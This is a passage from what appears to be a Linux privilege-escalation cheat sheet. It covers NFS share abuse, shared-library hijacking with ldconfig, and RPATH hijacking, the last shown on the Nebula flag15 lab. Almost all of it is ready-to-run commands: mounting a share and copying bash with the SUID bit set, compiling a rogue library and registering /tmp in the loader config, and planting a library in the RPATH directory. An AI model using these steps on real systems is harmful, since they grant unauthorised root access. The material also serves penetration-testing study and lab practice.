 ```powershell
# create dir
mkdir /tmp/nfsdir  

# mount directory 
mount -t nfs 10.10.10.10:/shared /tmp/nfsdir 
cd /tmp/nfsdir

# copy wanted shell 
cp /bin/bash . 	

# set suid permission
chmod +s bash 	
```

## Shared Library

### ldconfig

Identify shared libraries with `ldd`

```powershell
$ ldd /opt/binary
    linux-vdso.so.1 (0x00007ffe961cd000)
    vulnlib.so.8 => /usr/lib/vulnlib.so.8 (0x00007fa55e55a000)
    /lib64/ld-linux-x86-64.so.2 => /usr/lib64/ld-linux-x86-64.so.2 (0x00007fa55e6c8000)        
```

Create a library in `/tmp` and activate the path.

```powershell
gcc –Wall –fPIC –shared –o vulnlib.so /tmp/vulnlib.c
echo "/tmp/" > /etc/ld.so.conf.d/exploit.conf && ldconfig -l /tmp/vulnlib.so
/opt/binary
```

### RPATH

```powershell
level15@nebula:/home/flag15$ readelf -d flag15 | egrep "NEEDED|RPATH"
 0x00000001 (NEEDED)                     Shared library: [libc.so.6]
 0x0000000f (RPATH)                      Library rpath: [/var/tmp/flag15]

level15@nebula:/home/flag15$ ldd ./flag15 
 linux-gate.so.1 =>  (0x0068c000)
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0x00110000)
 /lib/ld-linux.so.2 (0x005bb000)
```

By copying the lib into `/var/tmp/flag15/` it will be used by the program in this place as specified in the `RPATH` variable.

```powershell
level15@nebula:/home/flag15$ cp /lib/i386-linux-gnu/libc.so.6 /var/tmp/flag15/

level15@nebula:/home/flag15$ ldd ./flag15 
 linux-gate.so.1 =>  (0x005b0000)
 libc.so.6 => /var/tmp/flag15/libc.so.6 (0x00110000)
 /lib/ld-linux.so.2 (0x00737000)
```
